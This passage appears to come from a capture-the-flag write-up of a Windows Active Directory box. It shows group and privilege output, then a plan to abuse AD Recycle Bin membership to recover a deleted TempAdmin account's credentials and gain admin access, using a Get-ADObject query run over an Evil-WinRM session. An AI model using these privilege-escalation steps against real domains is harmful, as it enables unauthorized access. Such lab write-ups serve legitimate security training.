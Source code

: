 ```bash
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
CASCADE\Data Share                          Alias            S-1-5-21-3332504370-1206983947-1165150453-1138 Mandatory group, Enabled by default, Enabled group, Local Group
CASCADE\IT                                  Alias            S-1-5-21-3332504370-1206983947-1165150453-1113 Mandatory group, Enabled by default, Enabled group, Local Group
CASCADE\AD Recycle Bin                      Alias            S-1-5-21-3332504370-1206983947-1165150453-1119 Mandatory group, Enabled by default, Enabled group, Local Group
CASCADE\Remote Management Users             Alias            S-1-5-21-3332504370-1206983947-1165150453-1126 Mandatory group, Enabled by default, Enabled group, Local Group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10                                    Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

This one sticks out in particular.

```bash
CASCADE\AD Recycle Bin                      Alias            S-1-5-21-3332504370-1206983947-1165150453-1119 Mandatory group, Enabled by default, Enabled group, Local Group
```
So this means that we have privilege to recycle the deleted objects from the Ad Recycle bin.

I remembered the html file from earlier about the user TempAdmin and how their account was deleted so what if we could recover the deleted data for that user and login as admin as they both have the same password for the account.

We run the following command:
```bash
*Evil-WinRM* PS C:\Users\arksvc\Documents> Get-ADObject -ldapFilter:"(msDS-LastKnownRDN=*)" -IncludeDeletedObjects

                                                                                                                                                                                                       
Deleted           : True                                                                                                                                                                               
DistinguishedName : CN=CASC-WS1\0ADEL:6d97daa4-2e82-4946-a11e-f91fa18bfabe,CN=Deleted Objects,DC=cascade,DC=local                                                                                      
Name              : CASC-WS1                                                                                                                                                                           
                    DEL:6d97daa4-2e82-4946-a11e-f91fa18bfabe                                                                                                                                           
ObjectClass       : computer                                                                                                                                                                           
ObjectGUID        : 6d97daa4-2e82-4946-a11e-f91fa18bfabe                                                                                                                                               
                                                                                                                                                                                                       
Deleted           : True                                                                                                                                                                               
```